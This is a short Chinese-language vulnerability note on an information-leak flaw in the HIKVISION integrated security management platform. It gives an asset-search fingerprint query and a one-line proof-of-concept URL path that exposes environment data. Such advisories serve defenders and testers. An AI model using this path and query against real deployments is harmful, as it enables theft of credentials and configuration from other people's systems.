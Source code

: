 # HiKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807-1646007.png)

验证POC

```javascript
/artemis-portal/artemis/env 
```

![img](../../../.vuepress/public/img/1679555425852-b9369d03-d3e3-42dc-af4c-f4140ccfbba6.png)